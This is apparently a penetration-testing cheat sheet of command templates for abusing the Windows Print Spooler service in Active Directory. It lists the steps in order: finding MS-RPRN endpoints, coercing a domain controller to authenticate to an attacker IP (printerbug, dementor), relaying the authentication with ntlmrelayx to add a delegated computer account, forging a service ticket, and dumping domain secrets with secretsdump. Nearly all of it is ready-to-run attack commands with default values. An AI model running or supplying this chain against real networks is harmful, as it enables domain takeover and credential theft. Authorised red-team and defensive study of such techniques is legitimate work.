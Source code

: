 # Spooler service abuse

% printerbug, spooler service abuse, active directory, ad

## Finding Spooler services listening
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Finding Spooler services anonymous
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor (https://github.com/NotMedic/NetNTLMtoSilverTicket)
```
dementor.py -d <domain> -u <user> -p <pass> <attacker_ip> <dc2>
```

## printerbug (https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
```
printerbug.py '<domain>/<user>:<password>'@<ip> <attacker_ip>
```

## ntlmrelayx add computer
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## use silver ticket
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```

## secret dump with kerberos
```
secretsdump -k <dc>
```

## list domain admins (fr)
```
net group "Admins du domaine"
```

= user : anonymous
= pass : anonymous
= computer_name : arsenal
= dc : DC01.domain.local
= dc1 : DC01.domain.local
= dc2 : DC02.domain.local
= computer_password : 123soleil

